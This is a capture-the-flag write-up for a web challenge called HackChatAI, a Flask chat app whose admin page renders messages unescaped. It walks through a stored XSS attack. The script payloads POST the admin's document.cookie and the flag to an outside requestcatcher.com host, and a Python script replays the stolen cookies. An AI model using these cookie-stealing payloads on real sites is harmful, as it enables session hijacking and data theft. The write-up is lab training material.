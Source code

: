 # HackChatAI \[388 points\] (6 solves)

> Why rely on humans for conversation when AI can handle it for you?

### Files:
[src.zip](/web/HackChatAI/src)

This challenge gives us a Flask chat app which allows us to communicate with a GPT-4o model and optionally request a human. Requesting a human spins up a Selenium webdriver and visits the `/admin` chat, but nothing is returned from there.

## The Attack Vector

The goal is pretty obvious: steal the admin's cookie, log in to `/admin` and get the flag from the admin chat.

Since this is a Flask app, the biggest thing that I was looking for was if the challenge disabled autoescaping. Autoescaping is done by default by Flask, and it ensures that anything dynamically loaded via templates into our HTML is treated like plain text, not as HTML. If the challenge turns autoescaping off, we will be able to perform basic XSS attacks to exfiltrate data from the admin. Yet, if we look at our `index.html` file, we can see that there aren't any `| safe` operators (these would turn off autoescaping and allow for our messages to be parsed as HTML):

```html
    <h2>Chat Page</h2>
    <div class="messages" id="messages">
        {% for message, is_response in chat_history %}
            <div>{{ 'Server: ' if is_response else 'You: ' }}{{ message }}</div>
        {% endfor %}
    </div>
```

I was stuck here for most of the challenge. If I'm not able to inject code, how can I steal the flag from the admin?

In this case, my mistake was the assumption that our Selenium instance is visiting the same chat as I was. The Selenium instance actually visits the `/admin` page with an admin cookie, which is what we're trying to steal. 

> [!NOTE]
> The Selenium instance only starts up when you write `I need a human` in the chat

If we look at the admin page:

```html
    <h3>Chat History</h3>
    <div class="chat-history">
        {% for chat in chat_history %}
        <div class="chat-message">
            <div class="chat-date">{{ chat[0]|safe }}</div>
        </div>
        {% endfor %}
    </div>
```

We can see that all of our messages have autoescaping turned off, allowing for us to use XSS to steal the admin account.

When tinkering with different XSS attacks, the biggest deterrent I found was this error I:

![console fetch error](/web/HackChatAI/solution/cors_error.png)

I thought this meant that I wasn't able to POST the data, so I started considering exfiltrating data with WebRTC and DNS out-of-bound interactions. But, if you read the error carefully, it's specifying that the *response* is being blocked, not the *request*, which means that our data is being sent, but any response we get will be blocked by CORS. That doesn't matter, because we're not returning anything from the request.


## Execution

Here is my basic XSS attack to exfiltrate the cookie from the admin:

```js
<script>
    fetch("https://hackbox.requestcatcher.com", { 
        method: "POST",
        headers: { "Content-Type": "text/plain" },
        body: document.cookie
    });
</script>
```
<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackbox.requestcatcher.com", { method: "POST", headers: { "Content-Type": "text/plain" }, body: document.cookie });</script>
```

</details>

In this POST request, I used [`requestcatcher`](https://requestcatcher.com/) to see all `POST`ed data, mainly because it's free and unblocked on my school's WiFi. Once I input the XSS into the chat and requested a human, we get `POST`ed data of the admin cookies:

![cookies from admin](/web/HackChatAI/solution/stolen_cookies.png)

So, this was the final script to get the admin page:
```py
import requests

url = "https://ictf24-high-hackchatai.chals.io/admin"
cookies = {
    "admin_cookie": "NBtL78S9MCdb8sOC",
    "play_token": "2ht823oPJa5jPrcy"
}

response = requests.get(url, cookies=cookies)

print(response.text)
```


Resulting in the HTML page of the admin containing the flag:
```
...
<h2>Welcome, Admin!</h2>
<h3>ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}</h3>
...
```

### Alternate solution

However, it's actually easier to ignore the admin cookie altogether and simply steal the flag, since it's loaded on the admin page regardless:

![admin page](/web/HackChatAI/solution/admin_console_selenium.png)

This flag in an H3 element, which we can steal by parsing through all H3s that start with `ictf` (the flag format):

```html
<script>
    fetch("https://hackchatai.requestcatcher.com", {
        method: "POST",
        headers: {
            "Content-Type": "text/plain"
        },
        body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent
    });
</script>
```

<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackchatai.requestcatcher.com", {method: "POST", headers: {"Content-Type": "text/plain"}, body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent.trim() || 'invalid'});</script>
```

</details>

<br>

We get a POST request like this:

![final post req](/web/HackChatAI/solution/request_catcher_post.png)

Giving us the flag.

```
ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}
```

## Conclusion

I really enjoyed this challenge. It reminded me of PicoCTF 2024's hardest web challenge, `elements`, given that both of the challenges allowed the user to execute code in an automated web browser to exfiltrate the flag. This wasn't too hard, and was a nice practice problem in the middle of the competition.